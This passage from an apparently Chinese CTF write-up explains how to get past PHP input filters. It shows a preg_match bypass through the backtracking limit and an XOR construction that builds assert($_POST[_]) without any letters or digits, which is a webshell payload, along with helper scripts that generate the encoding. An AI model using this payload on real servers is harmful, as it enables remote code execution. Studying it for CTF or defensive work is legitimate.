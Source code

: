 关键点就是，is_php($data)要为false，也就是`preg_match('/<\?.*[(`;?>].*/is', $data);`为false，根据preg_match函数的性质，

如果匹配不到或者`$data`为数组，那么返回为false。当然数组是不可能的，因为file_get_contents函数是将内容读入$data中，

那么就考了匹配不了这种情况，因为上面我们发现，当超过最好回溯限制式将返回false，因为利用这一个点进行突破。


### 使用无字母数字方式绕过

这是以一个题目引发的，之前看过P师傅的[讲解][2]，

很是收益。先膜一波，然后具体地解析一下代码。

```php
<?php
if(!preg_match('/[a-z0-9]/is',$_GET['shell'])) {
eval($_GET['shell']);
}
```

对于这个正则表达式，很显然，把数字大小写字母全部过滤了，因为shell无法直接命令执行。在p神的博客中提到三种方法，


#### 方法一：使用异或

```php
<?php
 $_=('%01'^'`').('%13'^'`').('%13'^'`').('%05'^'`').('%12'^'`').('%14'^'`'); // $_='assert';
 $__='_'.('%0D'^']').('%2F'^'`').('%0E'^']').('%09'^']'); // $__='_POST';
 $___=$$__;
 $_($___[_]); // assert($_POST[_]);
```


#### 对上面的payload这里做出具体解释：


#### IN:

```php
<?php
$payload = array('a','s','s','e','r','t','P','O','S','T');
foreach ($payload as $n => $p){
    echo $p^'`';
}
```


#### OUT:
`0/34`可以发现'P''S''T'这三个字母异或出来是数字，所以与']'异或一下，最终为：


#### IN:

```php
<?php
$payload = array('a','s','s','e','r','t','P','O','S','T');
foreach ($payload as $p){
    if($p=='P'||$p=='S'||$p=='T'){
        echo urlencode($p^']');
        continue;
    }
    echo urlencode($p^'`');
}
```


[0]: http://51.158.75.42:8084/
[1]: http://www.php.net/manual)%EF%BC%8C%E8%BF%99%E4%B8%AA%E7%9C%9F%E7%9A%84%E6%98%AF%E5%A5%BD%E4%B8%9C%E8%A5%BF%E3%80%82%E4%BB%A5%E4%B8%8B%E6%98%AF%E5%AF%B9%E8%BF%99%E4%B8%80%E5%9D%97%E7%9A%84%E6%8E%A2%E7%A9%B6%EF%BC%9A
[2]: https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html